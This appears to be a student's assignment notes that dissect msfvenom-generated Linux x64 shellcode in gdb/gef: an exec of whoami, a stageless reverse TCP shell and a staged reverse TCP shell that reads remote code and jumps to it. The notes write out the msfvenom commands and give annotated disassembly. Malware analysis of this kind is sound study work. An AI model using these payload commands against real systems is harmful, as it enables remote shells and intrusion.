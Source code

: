 because the assignment asks to analyze using gdb, i will not use ndisasm or any other tool
because i'm using gdb+gef 8.3, i can use the command "starti" that start the
executable and interrupt at the very first call.


exec
====
msfvenom -p linux/x64/exec -f elf CMD=whoami > 05-exec

gdb ./05-exec
starti

i can now run vmmap, grep, and x/ to analyze the flow
vmmap for example show that 0x400000 is rwx
and x/20i 0x400078 (where 0x400078 is starting point) shows us what
looks like the main letting us to analyze without actually running it:
gef➤  x/20i 0x400078
; this could be the syscall id, 0x3b is sys_execve
=> 0x400078:    push   0x3b
; and it's placed on rax
   0x40007a:    pop    rax
; basing on my former analysis, cdq will also zero edx. not useful to me in 64bit 
   0x40007b:    cdq
; place in rbx the string /bin/sh (with a null!)
   0x40007c:    movabs rbx,0x68732f6e69622f
; push it on the stack
   0x400086:    push   rbx
; and put a pointer to /bin/sh in rdi. this is required for execve syscall
   0x400087:    mov    rdi,rsp
; rsi will hold arguments, therefore the code pushes -c to have
; executed: /bin/sh -c
   0x40008a:    push   0x632d
   0x40008f:    mov    rsi,rsp
   0x400092:    push   rdx
; i saw this call also on 32bit release, and i loved it. this fools
; linear disassembler. let's skip everything and do a x/20i 0x40009f
   0x400093:    call   0x40009f
   0x400098:    ja     0x400102
   0x40009a:    outs   dx,DWORD PTR ds:[rsi]
   0x40009b:    (bad)
   0x40009c:    ins    DWORD PTR es:[rdi],dx
   0x40009d:    imul   eax,DWORD PTR [rax],0x89485756
   0x4000a3:    out    0xf,al
   0x4000a5:    add    eax,0x0
   0x4000aa:    add    BYTE PTR [rax],al
   0x4000ac:    add    BYTE PTR [rax],al
   0x4000ae:    add    BYTE PTR [rax],al


gef➤  x/20i 0x40009f
; the call moves RIP here. we see that something from rsi is pushed, rsi
; was -c. also rdi is pushed, and we know that rdi was a pointer to
; /bin/sh
   0x40009f:    push   rsi
   0x4000a0:    push   rdi
; then, a pointer to the command is placed at rsi that holds arguments
   0x4000a1:    mov    rsi,rsp
; we expect that /bin/sh -c is runt here, because we don't see anything
; else, so i'm running gdb step by step and i actually see that the
; stack starts with a string at the first push rsi. skip this analysis
; and move
   0x4000a4:    syscall

here is the stack when RIP is at 0x40009f:
0x00007fffffffe420│+0x0000: 0x0000000000400098  →  0x5600696d616f6877 ("whoami"?)        ← $rsp
0x00007fffffffe428│+0x0008: 0x0000000000000000
0x00007fffffffe430│+0x0010: 0x000000000000632d ("-c"?)   ← $rsi
0x00007fffffffe438│+0x0018: 0x0068732f6e69622f ("/bin/sh"?)      ← $rdi

and at 0x4000a1 (mov rsi,rsp):
0x00007fffffffe410│+0x0000: 0x00007fffffffe438  →  0x0068732f6e69622f ("/bin/sh"?)       ← $rsp
0x00007fffffffe418│+0x0008: 0x00007fffffffe430  →  0x000000000000632d ("-c"?)
0x00007fffffffe420│+0x0010: 0x0000000000400098  →  0x5600696d616f6877 ("whoami"?)
0x00007fffffffe428│+0x0018: 0x0000000000000000

we clearly see that the code executes /bin/sh -c whoami

reverse stageless
=================
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1234 -f elf > 05-reversetcp_stageless
gdb ./05-reversetcp_stageless
starti

reading the first 8 instructions, i see that the sys_socket syscall is
created with an AF_INET STREAM (tcp).
→   0x400078                  push   0x29
     0x40007a                  pop    rax
     0x40007b                  cdq
     0x40007c                  push   0x2
     0x40007e                  pop    rdi
     0x40007f                  push   0x1
     0x400081                  pop    rsi
     0x400082                  syscall

should be safe to run until 0x400082, so i just b *0x400082 and c

just after the syscall, we can see another one is prepared:
; everything starts by saving rax to rdi, for socket syscall rax will
; hold socket file descriptor that is needed to interact with socket
; itself
   0x400084:    xchg   rdi,rax
; lot of nulls here, a basic "hex2ip" gives a 127.0.0.1 in little endian
; just the first 4 bytes are considered here of course for the ip, let's
; go down to see what could be that 0x2040002
; at 0x400097 i see that 0x2a is the syscallid, that is sys_connect.
; i therefore expect rdi as socketfd, rsi as sockaddr struct, and rdx as
; addrlen
; given that this hex will go to rsi, i can guess that it's the struct.
; so: last 0002 will be family, and remaining bytes (d204) the port in
; little endian again: 1234
   0x400086:    movabs rcx,0x100007fd2040002
   0x400090:    push   rcx
   0x400091:    mov    rsi,rsp
; as said, rds will hold address length, which is 0x10
   0x400094:    push   0x10
   0x400096:    pop    rdx
; and the real syscall sys_connect
   0x400097:    push   0x2a
   0x400099:    pop    rax
   0x40009a:    syscall

let's b *0x40009a to easily jump over already analyzed code and c
following syscall is quite small, analyze line by line:
; put 3 in rsi and decrement: like push 0x2
     0x40009c                  push   0x3
     0x40009e                  pop    rsi
     0x40009f                  dec    rsi
; place 0x21 in rax, which is sys_dup2 syscall, and do the call for rsi 2 (STDERR)
     0x4000a2                  push   0x21
     0x4000a4                  pop    rax
     0x4000a5                  syscall
; this jump occurs, acting as loop by creating the three needed fd also for STDOUT and STDIN
     0x4000a7                  jne    0x40009f

after that, we will x/20i 0x4000a9 to see following 20 instructions,
that i'll analyze line by line:
; 0x3b is our beloved sys_execve, when she's in rax we know something
; good (or bad) will happen
=> 0x4000a9:    push   0x3b
   0x4000ab:    pop    rax
; zero stuff again
   0x4000ac:    cdq
; move /bin/sh to rbx, that holds binary that will be executed
   0x4000ad:    movabs rbx,0x68732f6e69622f
   0x4000b7:    push   rbx
; and place a pointer to rdi
   0x4000b8:    mov    rdi,rsp
   0x4000bb:    push   rdx
   0x4000bc:    push   rdi
; prepare arguments, as already discussed for 05-exec
   0x4000bd:    mov    rsi,rsp
; and do the call
   0x4000c0:    syscall

reverse staged
==============
msfvenom -p linux/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=1234 -f elf > 05-reversetcp_staged
i expect this payload to be more interesting to analyze because of the
stager. let's go:

gdb ./05-reversetcp_staged
starti

gef➤  x/20i 0x400078
=> 0x400078:    xor    rdi,rdi
; 0x9 syscall refers to sys_mmap, let's man it:
; void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
;                ^^ rdi,        ^^ rsi,   ^^ rdx,    ^^ r10,  ^^ r8,        ^^ r9);
   0x40007b:    push   0x9
   0x40007d:    pop    rax
   0x40007e:    cdq
; interesting move here, they split dx in dh+dl as saw at 0x40008b
; resulting protection will be 1007, that means rwx
   0x40007f:    mov    dh,0x10
; and to reuse code, they also put dh (0x10, but it's really 0x1000 so 4096 bytes) in rdx to specify length
   0x400081:    mov    rsi,rdx
; zero offset, to start from the very beginning of already xored rdi
   0x400084:    xor    r9,r9
; 0x22 flag could be like 0x20+0x2, that reading from grep -r \ MAP_ /usr/include/
; leads to PRIVATE and ANONYMOUS
   0x400087:    push   0x22
   0x400089:    pop    r10
   0x40008b:    mov    dl,0x7
; do the actual mmap
   0x40008d:    syscall

after the syscall, i will x/20i 0x40008d:
; if everythings ok, go on
   0x40008f:    test   rax,rax
   0x400092:    js     0x4000e5
   0x400094:    push   0xa
   0x400096:    pop    r9
   0x400098:    push   rax
; syscall id 0x29 is sys_socket, we can skim this because already
; analyzed for the stageless payload
   0x400099:    push   0x29
   0x40009b:    pop    rax
   0x40009c:    cdq
   0x40009d:    push   0x2
   0x40009f:    pop    rdi
   0x4000a0:    push   0x1
   0x4000a2:    pop    rsi
   0x4000a3:    syscall

let's x/20i 0x4000a5 to read the code after syscall:
; at 0x4000bd we see that the syscall will be sys_connect. struct is
; defined at 0x4000ac and points to 127.0.0.1:1234 as discussed for the
; stageless one
   0x4000a5:    test   rax,rax
   0x4000a8:    js     0x4000e5
   0x4000aa:    xchg   rdi,rax
   0x4000ac:    movabs rcx,0x100007fd2040002
   0x4000b6:    push   rcx
   0x4000b7:    mov    rsi,rsp
   0x4000ba:    push   0x10
   0x4000bc:    pop    rdx
   0x4000bd:    push   0x2a
   0x4000bf:    pop    rax
   0x4000c0:    syscall

; fast forward to 0x4000c2, and x/20i 0x4000c2:
; at 0x4000ce we see that the syscall will be sys_nanosleep
; this means that the code will sleep 5 seconds (defined at 0x4000d3)
; after the connect
   0x4000c2:    pop    rcx
   0x4000c3:    test   rax,rax
; if everithing's fine, go *after* an exit call
   0x4000c6:    jns    0x4000ed
   0x4000c8:    dec    r9
   0x4000cb:    je     0x4000e5
   0x4000cd:    push   rdi
   0x4000ce:    push   0x23
   0x4000d0:    pop    rax
   0x4000d1:    push   0x0
   0x4000d3:    push   0x5
   0x4000d5:    mov    rdi,rsp
   0x4000d8:    xor    rsi,rsi
   0x4000db:    syscall

looks harmless again, so b *0x4000dd after the syscall and x/20i 0x4000dd:
this code looks interesting, it re
   0x4000dd:    pop    rcx
   0x4000de:    pop    rcx
   0x4000df:    pop    rdi
   0x4000e0:    test   rax,rax
   0x4000e3:    jns    0x4000ac
   0x4000e5:    push   0x3c
   0x4000e7:    pop    rax
   0x4000e8:    push   0x1
   0x4000ea:    pop    rdi
   0x4000eb:    syscall
; if connect will not raise issue, we land here. this syscall is
; actually a read, because rax is 0x0 from last syscall
; she reads input from connection and put it at rsi, go to 0x4000e5 (an exit) if there is
; any issue or jmp to rsi by executing the code
   0x4000ed:    pop    rsi
   0x4000ee:    push   0x26
   0x4000f0:    pop    rdx
   0x4000f1:    syscall
   0x4000f3:    test   rax,rax
   0x4000f6:    js     0x4000e5
   0x4000f8:    jmp    rsi
